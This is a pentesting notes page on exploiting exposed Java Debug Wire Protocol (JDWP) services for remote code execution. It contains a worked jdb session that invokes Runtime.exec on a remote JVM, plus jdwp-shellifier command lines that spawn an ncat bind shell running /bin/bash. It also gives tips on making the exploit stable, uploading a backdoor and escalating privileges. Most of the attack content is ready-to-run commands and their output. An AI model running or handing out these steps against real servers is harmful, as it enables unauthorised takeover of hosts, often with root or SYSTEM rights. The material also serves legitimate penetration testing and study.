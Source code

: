 ```yaml
---
description: Java Debug Wire Protocol (JDWP) - Remote Code Execution
---
```


# JDWP - Java Debug Wire Protocol

<mark style="color:purple;">**Java Debug Wire Protocol (JDWP) -**</mark>** **<mark style="color:red;">**Remote Code Execution**</mark>

Java Debugging Wire Protocol (JDWP) is the lowlevel protocol used for communication between a debugger and a Java Virtual Machine (JVM) as outlined in the Java Platform Debugger Architecture. It is often used to facilitate remote debugging of a JVM over TCP/IP and can be identified by the initial protocol handshake ascii string "JDWP-Handshake", sent first by the client and responded to by the server. "jdb" is a proof-of-concept JDWP capable debugger included in Oracle JDK and OpenJDK which can be used to interact with remote JDWP capable services. Typically this service runs on TCP port 8000 however it can be found to run on arbitrary TCP ports and is sometimes found enabled inadvertantly on servers running Java services. It is possible to use this utility to exploit remote JVM's and execute arbitrary Java code. An example shown here outlines how to leverage this weakness to execute arbitrary host OS commands in the context of the JVM.

```
$ jdb -attach x.x.x.x:8000
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 

Information leaks can be leveraged to determine details about the remote OS
platform and Java installation configuration through the "classpath" command.

> classpath
base directory: C:\Windows\system32
classpath: [ ** MASKED ** list of jar's loaded in remote JVM ]
bootclasspath: [ ** MASKED ** list of JRE paths ]
> 

jdb is capable of performing remote object creation and method invokation from
within the CLI using the "print" "dump" and "eval" commands with the "new"
keyword. To determine the classes and methods available use the "classes" and
then "methods" on the corrosponding class. 

> classes
...
java.lang.Runtime
...
> methods java.lang.Runtime
...
java.lang.Runtime exec(java.lang.String[])
...

It is often necessary to set the JDB context to be within a suspended thread or
breakpoint before attempting to create a new remote object class. Using the
"trace go methods" function can be used to identify a candidate for a breakpoint
and then "stop in your.random.class.method()" to halt the execution of a running
thread. When the execution is halted you can use "print new" to create your
class and invoke methods such as in the following example.

Breakpoint hit: "thread=threadname",your.random.class.method(), line=745 bci=0
threadname[1] print new java.lang.Runtime().exec("cmd.exe /c dir")
new java.lang.Runtime().exec("cmd.exe /c dir") = "java.lang.ProcessImpl@918502"
threadname[1] cont
> 

Exploitation success will be determined from the output of the JDB process as
functions returning "null" or errors about "unsuspended thread state" would
indicate that exploitation was unsuccessful, however in the example above we can
see that the java created a new object "java.lang.ProcessImpl@918502" indicating
the "cmd.exe /c dir" was executed with success. On Linux this may need adjusting
to "java.lang.Runtime.getRuntime().exec()" however see the method / class
enumeration when attempting to exploit this flaw.


Your java will be executed in the context of the running JVM application, this
has been identified on services running as both "root" (*nix) and "SYSTEM"
(win32) in the wild. 
```

#### <mark style="color:purple;">POC:</mark>

{% embed url="https://www.exploit-db.com/exploits/46501" %}

```
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.\
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the \*\*Java Debug Wired Protocol \*\*and you may be able to move laterally or even **escalate privileges** (if executed as root).

#### <mark style="color:purple;">**Resources:**</mark>

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol" %}

{% embed url="https://ioactive.com/hacking-java-debug-wire-protocol-or-how/" %}

